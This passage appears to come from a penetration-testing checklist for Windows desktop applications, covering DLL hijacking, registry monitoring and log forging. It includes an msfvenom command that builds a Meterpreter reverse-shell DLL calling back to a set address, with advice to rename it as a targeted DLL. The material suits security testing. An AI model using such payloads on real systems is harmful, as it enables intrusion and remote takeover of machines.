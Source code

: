  * Compile on Linux :

```powershell
#install mingw
 sudo apt install mingw-w64
#x32
 i686-w64-mingw32-gcc -shared -o Shared.DLL Shared.cpp
#x64
 x86_64-w64-mingw32-gcc -shared -o Shared.DLL Shared.cpp
```
Place it into folder

**Escalating Privileges**
* Generating Malicious DLL using Metasploit

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil.dll
```
This will generate a Malicious DLL named **evil.dll**. You can **RENAME** it with the targeted DLL name and check if you’re able to get a meterpreter shell.

**Examples :**

* [https://abhigowdaa.medium.com/reverse-shell-using-dll-hijacking-vulnerability-8030eb74290](https://abhigowdaa.medium.com/reverse-shell-using-dll-hijacking-vulnerability-8030eb74290)
* [https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e](https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e)

### Server-Side Testing

#### Improper Error Handling

* Is there any errors displayed ?
* What information is reported back to the user ?

#### Registry Monitoring

Some applications store usernames, passwords, or other sensitive information in the windows registry.

* **Tools :**
  * [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/), from Sysinternals (to check the application operations)

#### Log Forging

If the application is maintaining logs then attempt to tamper log entries with malicious out-of-band payloads, spoof data, append large data to file, etc.

* Change the current time to any random value of the past or future and check if the logs recorded by the application reflect the modified value of time and date.
* **Tools :**
  * Echo Mirage
  * Burp Suite (as a web proxy)
  * **Non HTTP Apps**&#x20;
    * TCP Relay
    * Wireshark
    * Java Snoop
